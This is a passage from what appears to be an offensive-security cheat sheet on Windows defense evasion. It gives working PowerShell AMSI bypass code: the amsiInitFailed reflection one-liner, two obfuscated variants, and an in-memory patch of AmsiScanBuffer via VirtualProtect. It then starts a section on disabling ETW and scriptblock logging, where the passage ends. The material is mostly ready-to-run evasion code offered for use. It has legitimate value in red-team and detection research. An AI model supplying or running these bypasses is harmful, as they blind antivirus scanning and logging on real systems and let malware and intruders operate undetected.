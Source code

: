 ### AMSI
- https://amsi.fail/
- Get an AMSI bypass string and then obfuscate [manually](#Obfuscation-techniques)

#### AMSI bypass string
```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

#### AMSI bypass string obfuscated
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
$v=[Ref].Assembly.GetType('System.Management.Automation.Am' + 'siUtils'); $v."Get`Fie`ld"('ams' + 'iInitFailed','NonPublic,Static')."Set`Val`ue"($null,$true)
```

#### AMSI bypass string 2 obfuscated
```
$MethodDefinition = @"
[DllImport(`"kernel32`",  EntryPoint="GetProcAddress")]
public static extern IntPtr GetProc(IntPtr hModule, string procName);

[DllImport(`"kernel32`")]
public static extern IntPtr GetModuleHandle(string lpModuleName);

[DllImport(`"kernel32`",EntryPoint="VirtualProtect" )]
public static extern bool Virtual(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
"@;
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kern' -NameSpace 'W' -PassThru;
$ABSD = 'Ams'+'iS'+'canBuffer';
$handle = [W.Kern]::GetModuleHandle('ams'+'i.dll');
[IntPtr]$BAddress = [W.Kern]::GetProc($handle, $ABSD);
[UInt32]$Size = 0x5;
[UInt32]$PFlag = 0x40;
[UInt32]$OFlag = 0;
[W.Kern]::Virtual($BAddress, $Size, $PFlag, [Ref]$OFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);
[system.runtime.interopservices.marshal]::copy($buf, 0, $BAddress, 6);
```

### ETW
- Event Tracing for Windows
- Very effective way of hunting .NET
- Reflectivly modify the PowerShell process to prevent events being published. ETW feeds ALL of the other logs so this disabled everything!
- Also bypasses scriptblock logging
